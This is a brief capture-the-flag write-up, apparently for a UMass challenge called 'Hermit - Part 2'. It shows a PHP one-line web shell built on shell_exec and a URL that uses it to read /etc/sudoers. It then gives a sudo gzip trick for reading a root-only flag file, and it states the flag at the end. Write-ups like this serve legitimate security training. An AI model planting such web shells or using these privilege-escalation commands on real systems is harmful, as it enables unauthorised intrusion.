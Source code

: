 # Hermit - Part 2

Basically I created a basic reverse shell (```<?php echo shell_exec($_GET['var']);?>```) and uploaded it to the "hermit - part 1" challenge changing the "filename" to:

![image](https://user-images.githubusercontent.com/29373869/112762082-e532c000-8ff5-11eb-989d-aef8fc453599.png)

Now If I wanted to see what's on that directory I only needed to use ```http://url/show.php?filename=F7Smvx&var=cat /etc/sudoers```
After looking around, I tried to do some privilege escalation and found this in /etc/sudoers:

![image](https://user-images.githubusercontent.com/29373869/112762269-af420b80-8ff6-11eb-84cf-1f3a492ec9ab.png)

So I used the command ```sudo /bin/gzip -f /root/rootflag.txt -t``` and...

![image](https://user-images.githubusercontent.com/29373869/112762421-853d1900-8ff7-11eb-99a6-555721f9c2f1.png)


FLAG = UMASS{a_test_of_integrity}
